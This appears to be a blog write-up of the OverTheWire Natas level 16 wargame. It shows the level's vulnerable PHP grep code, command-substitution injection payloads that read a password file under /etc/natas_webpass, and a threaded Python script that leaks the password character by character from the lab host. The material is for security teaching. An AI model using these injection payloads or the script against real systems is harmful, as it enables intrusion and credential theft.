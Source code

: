 ```yaml
---
layout: post
title:  "Natas Level 15 → Level 16"
date:   2021-05-28 11:15:19
categories: ctf wargames web-security
tags: wargames ctf overthewire web-security
series: "OverTheWire: Natas"
excerpt: You can't see what I can see
mathjax: false
---
```


## Level Goal
Excluding the URL and username, the Level Goal section is blank for the Natas ctf.


## Solution
The natas16 site is an updated version of the natas9 site. This time the key is placed in quotes, and with the filters in place, we cannot reuse our solution.

Here's the code for the site:
```php
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&`\'"]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i \"$key\" dictionary.txt");
    }
}
?>
</pre>
```

While the filter makes our task more difficult, it does not make it impossible due to one oversight, the command substitution notation **$()** was not included. We can combine this with the way this application behaves to create a binary attack to leak the password. This is similar to the method used in the previous level, except sqlmap won't be able to help; We'll need to script this.

Note that if we search for something in the database, every match comes back. If nothing is found, nothing is returned. We can create a similar attack to the last level by finding a word that returns a single result. For this, I will use the word **sonatas**. I happened to find this word looking for natas in the dictionary. Any word will work so long as only one result is returned.

If we use the word sonatas immediately followed by a carefully created command substitution, we can leak the password for the next level.  Enter the following into the form:

```
sonatas$(grep a /etc/natas_webpass/natas17)
```

Notice that we got the word sonatas back.  Now try searching for the following:
```
sonatas$(grep 8 /etc/natas_webpass/natas17)
```

The returned result is blank. This is because the natas17 password contains an "8". The matching line is now appended to the end of the word sonatas.  In other words, if the password was ***789xyz**, our first search was unaffected since there no "a", but in the second search the "8" was matched and sonatas became sonatas789xyz. Since the command substitution takes place, this is the word the application looked for.  Since sonatas789xyz is not in the dictionary, nothing was returned.

With this, we can modify the scripts from the last level for this task. If you haven't read the write-up for the previous level and are not familiar with how the binary attack works, I'd recommend doing so. 

Like the previous level, you'll need to supply the current level password to the script.

Script Performance:
```
Filtering characters completed in 2.24 seconds
Password search completed in 34.62 seconds

Completed in 36.86 seconds
```

Here's the script:
```python
#!/usr/bin/env python
import time
import string
import requests
from requests.auth import HTTPBasicAuth
import concurrent.futures

start_script = time.perf_counter()
all_chars = list(string.ascii_uppercase + string.ascii_lowercase + string.digits)
natas16_password = "W------------------------------h"  # Password for the current level
natas17_password = ""  # Buffer for the next level password
filtered_chars = ""


def get_chars(char):
    req = requests.get('http://natas16.natas.labs.overthewire.org/index.php?needle=sonatas$(grep ' +
                       char + ' /etc/natas_webpass/natas17)', auth=HTTPBasicAuth('natas16', natas16_password))

    if 'sonatas' not in req.text:
        return char
    else:
        return None


start_filter = time.perf_counter()
with concurrent.futures.ThreadPoolExecutor() as executor:
    result = executor.map(get_chars, all_chars)

    for r in result:
        if r is not None:
            print(r, end='', flush=True)
            filtered_chars = filtered_chars + str(r)

end_filter = time.perf_counter()
print(f'\nFiltering characters completed in {round(end_filter - start_filter, 2)} seconds')


def get_password(fc):
    req = requests.get('http://natas16.natas.labs.overthewire.org/index.php?needle=sonatas$(grep ^' + natas17_password +
                       str(fc) + ' /etc/natas_webpass/natas17)', auth=HTTPBasicAuth('natas16', natas16_password))

    if 'sonatas' not in req.text:
        return str(fc)
    else:
        return None


start_password = time.perf_counter()
for _ in range(0, 32):
    with concurrent.futures.ThreadPoolExecutor() as executor:
        result = executor.map(get_password, filtered_chars)

        for r in result:
            if r is not None:
                natas17_password = natas17_password + str(r)
                print(r, end='', flush=True)

end_password = time.perf_counter()
print(f'\nPassword search completed in {round(end_password - start_password, 2)} seconds')

end_script = time.perf_counter()
print(f'\nCompleted in {round(end_script - start_script, 2)} seconds')
```

